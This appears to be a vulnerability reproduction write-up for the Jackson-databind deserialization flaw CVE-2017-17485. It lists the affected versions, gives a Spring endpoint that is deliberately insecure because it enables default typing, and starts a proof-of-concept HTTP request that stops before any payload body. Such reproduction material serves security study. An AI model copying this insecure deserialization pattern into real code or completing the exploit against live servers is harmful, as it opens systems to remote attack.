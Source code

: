 
### Demo
The following demonstrates the method from HTTP request to Spring, then readValue, and finally triggers the gadget method. Here is an SSRF example.
![](jackson-JsonTypeInfo_id_class-poc.gif)

### Reproduce CVE-2017-17485

#### Sphere of influence
- Jackson-databind version <= 2.9.3

- Jackson-databind version <= 2.7.9.1

- Jackson-databind version <= 2.8.10
Reference: https://github.com/RealBearcat/Jackson-CVE-2017-17485

#### Vulnerability environment
Modify pom.xml and set the version of jackson-databind to 2.9.3:
```xml
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.3</version>
    	</dependency>
```

Using existing vulnerable code:
```java
    static class ABean {
        public int id;
        public Object obj;
    }

    @RequestMapping(value = "/deserialize2", method = {RequestMethod. POST})
    @ResponseBody
    public static String deserialize2(@RequestBody String params) throws IOException {
        // If the Content-Type does not set the application/json format, the post data will be url-encoded
        System.out.println(params);
        try {
            ObjectMapper objectMapper = new ObjectMapper();
            objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_CONCRETE_AND_ARRAYS);
            objectMapper.readValue(params, ABean.class);
            return "deserialize2";
        } catch (Exception e){
            e.printStackTrace();
            return e.toString();
        }
    }
```

#### PoC
Since the class to be deserialized is an ABean, write the following PoC according to the format of the ABean (although the id attribute can also trigger the vulnerability):
```http
POST /jackson/deserialize2 HTTP/1.1
Host: cqq.com:8080
Connection: close
Cookie: confluence-sidebar.width=285; confluence.browse.space.cookie=space-blogposts; JSESSIONID=55F192C960EC2BBE19F71FB85C34D41C; XSRF-TOKEN=867c4ff2-4228-4e97-b9fa-81319af3502 b; remember-me=YWRtaW46MTU4NjQ4OTM3NjIwMzo0ODFhYmVjZjBhODYxMmVlOTE0NmJhZTU5OGYwN2EwMQ
Content-Type: application/json
Content-Length: 171

```